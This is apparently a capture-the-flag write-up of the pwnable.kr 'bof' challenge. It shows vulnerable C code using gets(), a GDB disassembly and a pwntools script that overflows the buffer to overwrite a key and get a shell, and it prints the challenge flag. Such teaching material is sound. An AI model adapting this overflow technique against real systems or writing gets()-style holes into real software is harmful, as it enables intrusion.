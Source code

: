 ```yaml
---
title: "Pwnable.kr - bof"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "This is a classic buffer overflow challenge, the code reads user input and stores it in a 32 bytes array using `gets()` which doesn't do any size checking.
So if we enter say a hundred characters we will overflow the buffer array `overflowme` and write past it in memory.
The goal of this challenge is to overwrite `key` with the value..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?




```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

This is a classic buffer overflow challenge, the code reads user input and stores it in a 32 bytes array using `gets()` which doesn't do any size checking.

So if we enter say a hundred characters we will overflow the buffer array `overflowme` and write past it in memory.

The goal of this challenge is to overwrite `key` with the value  `0xcafebabe`, by default function arguments are stored at `ebp+8, ebp+c, ...`, there is only on argument so we now it's at `ebp+8` (note that in 64 bit systems, function arguments are stored in the registers).

Using GDB, we can disassemble `func` to know the exact offset of the input buffer array from the `key` argument.

```
gef➤  disassemble func 
Dump of assembler code for function func:
.....
   0x56555644 <+24>:	call   0xf7e2db70 <puts>
=> 0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e2d0c0 <gets>
=> 0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
.....
```

Great, now we now the buffer is at offset `0x2c` from ebp, so we need to send: 

**[0x2c characters to reach ebp + 4 bytes for saved ebp + 4 bytes for the return address + the value 0xcafebabe]**.

# Solution:

```python
#solve.py

from pwn import *

p = remote('pwnable.kr', 9000)

buf = ""
buf += 'A' * 0x2c
buf += 'XXXX'		# saved ebp
buf += 'XXXX'		# ret address
buf += p32(0xcafebabe)	# value to overwrite key

p.send(buf)
p.interactive()		# for interactive shell
```

```
$ python2 solve.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode

$ ls
bof
bof.c
flag
log
log2
super.pl

$ cat flag
daddy, I just pwned a buFFer :)
```

Flag: `daddy, I just pwned a buFFer :)`